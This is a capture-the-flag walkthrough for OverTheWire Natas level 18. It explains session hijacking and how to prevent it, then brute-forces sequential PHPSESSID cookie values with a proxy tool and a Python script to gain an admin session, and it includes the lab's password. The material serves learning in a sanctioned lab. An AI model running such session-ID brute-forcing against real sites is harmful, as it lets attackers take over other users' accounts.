# 🕸️Natas Level 18 → Level 19

```
http://natas18.natas.labs.overthewire.org
```
Username: natas18  
Password: (natas18_password)



Check the source page for anything noteworthy — it looks like ``$maxid = 640``, which is quite interesting and seems to involve some **cookie-related function**.





### 🔐 What is Session hijacking?

***Session hijacking*** is a type of security attack where an attacker takes over a user's active session with a web application or network service. Essentially, the attacker steals or guesses the session identifier (like a session cookie or token) and then uses it to impersonate the legitimate user.

### 🧩 1. How Sessions Work
When you log into a website, the server creates a **session** to remember that you’re authenticated.  

- The server assigns a **session ID** (usually stored in a cookie, URL parameter, or HTTP header).  
- Every subsequent request you make includes this session ID so the server knows it’s you.  

### ⚠️ 2. How Hijacking Happens
Attackers try to obtain the session ID by:

- **Sniffing network traffic** – If the site uses HTTP instead of HTTPS, an attacker can capture session cookies.  
- **Cross-site scripting (XSS)** – Injecting scripts into a site to steal cookies from users’ browsers.  
- **Session fixation** – Forcing a user to use a known session ID, then taking over that session.  
- **Predicting session IDs** – If session IDs are weak or sequential, attackers can guess them.  

### 💥 3. Consequences
Once an attacker has the session ID, they can:

- Access the user’s account (e.g., email, banking, or admin panels).  
- Perform actions as if they were the user.  
- Potentially escalate privileges if the session belongs to an admin.  

### 🛡️ 4. How to Prevent Session Hijacking
- Always use **HTTPS** to encrypt traffic.  
- Set cookies with the **Secure** and **HttpOnly** flags.  
- Use **random, long, unpredictable session IDs**.  
- Implement **short session timeouts** and **re-authentication** for sensitive actions.  
- Monitor for **unusual session activity**.  

**In short:** Session hijacking = stealing someone’s session token to impersonate them.

First, we test it with the **admin account** to observe its response.



The output indicates that you are not an admin.



Next, we examine the cookie and notice that its name is `PHPSESSID` and its value is `15`, which is less than `640`.



You can also use `curl` to inspect the cookie with this command:
```
curl -u natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ \
-d "username=admin&password=pass" \
-i -s http://natas18.natas.labs.overthewire.org | grep -i set-cookie
```


Since the **cookie value** is fairly simple and low, we can easily **brute-force** it to reach our goal.
Here are 2 methods you can use to complete this challenge:

- Method 1 — Use web security testing tools 🛠️
- Method 2 — Write a Python script 🐍

### Method 1 — Use web security testing tools 🛠️

After capturing the POST request, forward it to Automate.



Select the cookie value, then click the ``+`` icon in the top-right corner.



Set the payload type to **Numbers**, starting at `1` and ending at `640` with an increment of `1`, then click Run



Once the run finishes, click the **Length column** to filter responses by different lengths, and that’s how we find our flag.



### Method 2 — Write a Python script 🐍

```
import requests


# Credentials for natas18
username = "natas18"
password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"

# Target URL
url = "http://natas18.natas.labs.overthewire.org"


# Start a session to persist cookies and headers across requests
session = requests.Session()


# Loop through possible admin PHPSESSID values (1 to 640)
for admin_id in range(1, 641):
    # Set the PHPSESSID cookie for the session
    # Note: cookie name must be a string
    session.cookies.set("PHPSESSID", str(admin_id))
    
    # Print which ID we are guessing
    print(f"Guessing with PHPSESSID={admin_id}")

    # Send a request with login credentials
    response = session.post(
        url,
        data={"username": "admin", "password": "pass"},  # example login data
        auth=(username, password)                        # HTTP Basic Auth
    )

    # Check if the response contains "You are an admin." (indicating success)
    if "You are an admin." in response.text:
        print(response.text)
        print(f"Found admin PHPSESSID={admin_id}")
        break  # Stop looping once the correct session ID is found


```

Ensure the file has **executable permissions**, then run it.



Once the `admin_id` value is found, the flag should become visible.



Well done! This is the flag needed for the next challenge.

